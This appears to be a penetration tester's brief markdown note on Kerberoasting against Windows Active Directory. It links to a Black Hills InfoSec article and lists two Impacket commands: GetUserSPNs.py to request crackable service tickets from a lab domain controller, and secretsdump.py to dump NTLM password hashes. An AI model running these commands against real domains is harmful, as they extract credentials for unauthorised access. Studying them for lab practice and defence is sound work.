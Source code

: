 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - KnownExploits
---
```

See [[Kerberos]]

https://www.blackhillsinfosec.com/a-toast-to-kerberoast/

`GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.local/zuul`

`secretsdump.py -just-dc-ntlm LAB/sqladmin@192.168.2.160`